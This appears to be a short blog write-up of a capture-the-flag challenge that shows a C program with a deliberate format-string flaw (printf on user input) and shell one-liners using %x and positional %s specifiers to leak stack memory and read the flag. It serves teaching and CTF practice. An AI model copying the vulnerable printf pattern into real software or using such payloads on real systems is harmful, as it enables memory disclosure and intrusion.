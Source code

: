 ```yaml
---
layout: post
title: "How printf can be exploited"
description:  "Exploiting printf with a custom address memory while competing a C-WARS CTF"
date:   2020-05-15 11:40:15 +0200
keywords:
  - printf
  - ctf

---
```


Last night I was watching a interesting presentation from [0xff][0xff] about [Security applications of language technology][video] and the sponsors were inviting people to compete on the CTF.

The level two had a interesting challenge: with a user input for login, can you access the flag, which as a variable inside that function? 

The code looks like this

{% highlight c%}
#include<stdio.h>
#include<stdlib.h>


int login(char *flag) {
	char user[10];
	read(0, user, sizeof user);
	printf(user);
	printf("\n");
	return 0;
}


int main(int argc, char *argv[]){

	char flag[10] = "FLAG{HÄR}";
	return login(flag);
}
{% endhighlight %}


And the trouble is spotted when we compile this code:

{% highlight bash%}
$ gcc test.c
test.c:7:2: warning: implicit declaration of function 'read' is invalid in C99
      [-Wimplicit-function-declaration]
        read(0, user, sizeof user);
        ^
test.c:8:9: warning: format string is not a string literal (potentially insecure)
      [-Wformat-security]
        printf(user);
               ^~~~
test.c:8:9: note: treat the string as an argument to avoid this
        printf(user);
               ^
               "%s",
2 warnings generated.
{% endhighlight %}


So, let's start trying to search the addresses available, for this we need to send the caracter %x:

{% highlight bash%}
python -c "print('%x '*10)" | ./a.out
ef1c995e 0 6f68d81e
{% endhighlight %}


Now, let's try to get the values from another format string:

{% highlight bash %}
$ for i in $(seq 10); do echo '%'$i'$s' | ./a.out; done
%1$s
��
��
(null)
��
H���

��
(null)
��
(null)
��
(null)
��
FLAG{HÄR}
         ��
{% endhighlight %}



[0xff]: https://0xff.se/
[cwars]: https://c-wars.acnr.se/
[video]: https://www.youtube.com/watch?v=Odz-jPE7DQ0

